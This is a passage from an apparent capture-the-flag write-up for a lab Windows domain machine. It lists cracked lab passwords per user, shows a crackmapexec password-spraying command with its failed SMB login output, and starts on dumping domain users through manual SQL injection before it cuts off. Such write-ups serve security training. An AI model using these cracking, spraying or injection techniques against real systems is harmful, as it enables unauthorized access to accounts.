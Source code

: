 While there's a bunch of users in the database, there were only four
unique passwords, and three broke with `rockyou.txt`:

  Password    Users
  ----------- ---------------------------------------------
  password1   sbauer, shayna, james, cyork, jorden, aldom
  finance1    ckane, kpage, zac, ilee, zpowers
  banking1    okent, rmartin, alyx, nbourne
  ?           minatotw, egre55

### Test Creds

I used `crackmapexec` to see if I could use any of these creds over SMB,
but they all failed:



    root@kali# crackmapexec smb 10.10.10.179 -u users -p passwords
    SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP) (signing:True) (SMBv1:True)
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\sbauer:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\okent:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\okent:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\okent:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\ckane:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\ckane:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\ckane:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\kpage:password1 STATUS_LOGON_FAILURE 
    ...[snip]...



### Dump Domain Users

A bit stuck, I eventually turned back to the database and [this
article](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)
on how to dump domain users from MSSQL. It shows how to do it through
intended interactions with the database, and at the very end through
Metasploit / SQLi.

#### Back to Manual

Given that I'm going into new territory, I decided to go back to manual
SQLi at this point. I have the example query from `sqlmap` for UNION 5
columns:
